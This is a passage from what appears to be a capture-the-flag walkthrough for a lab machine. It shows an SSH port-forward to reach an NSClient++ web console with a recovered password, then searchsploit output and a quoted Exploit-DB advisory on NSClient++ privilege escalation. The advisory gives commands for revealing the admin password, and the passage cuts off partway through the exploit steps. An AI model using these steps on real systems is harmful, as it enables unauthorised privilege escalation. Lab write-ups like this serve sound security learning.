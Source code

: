 ```
```

So, we have the password, but we only can connect from 127.0.0.1, so we could use curl... Or we can make a port forwarding.
For the last one, the only thing we must have is sshing again with this command:

```
ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184
```

Now, the 8443 port in our 127.0.0.1 will be redirect to the victims 8443 throw the SSH.
If now we open a new tab in our navigator and go to 127.0.0.1:8443 we'll get the same website, but now the password "ew2x6SsGTxjRwXOT" works.

We must realize that we have another exploit for this webservice:

```
kali@kali:~$ searchsploit nsclient
-------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                            |  Path
                                                                          | (/usr/share/exploitdb/)
-------------------------------------------------------------------------- ----------------------------------------
NSClient++ 0.5.2.35 - Privilege Escalation                                | exploits/windows/local/46802.txt
-------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
kali@kali:~$ cat /usr/share/exploitdb/exploits/windows/local/46802.txt 
Exploit Author: bzyo
Twitter: @bzyo_
Exploit Title: NSClient++ 0.5.2.35 - Privilege Escalation
Date: 05-05-19
Vulnerable Software: NSClient++ 0.5.2.35
Vendor Homepage: http://nsclient.org/
Version: 0.5.2.35
Software Link: http://nsclient.org/download/
Tested on: Windows 10 x64

Details:
When NSClient++ is installed with Web Server enabled, local low privilege users have the ability to read the web administator's password in cleartext from the configuration file.  From here a user is able to login to the web server and make changes to the configuration file that is normally restricted.  

The user is able to enable the modules to check external scripts and schedule those scripts to run.  There doesn't seem to be restrictions on where the scripts are called from, so the user can create the script anywhere.  Since the NSClient++ Service runs as Local System, these scheduled scripts run as that user and the low privilege user can gain privilege escalation.  A reboot, as far as I can tell, is required to reload and read the changes to the web config.  

Prerequisites:
To successfully exploit this vulnerability, an attacker must already have local access to a system running NSClient++ with Web Server enabled using a low privileged user account with the ability to reboot the system.

Exploit:
1. Grab web administrator password
- open c:\program files\nsclient++\nsclient.ini
or
- run the following that is instructed when you select forget password
        C:\Program Files\NSClient++>nscp web -- password --display
        Current password: SoSecret

2. Login and enable following modules including enable at startup and save configuration
```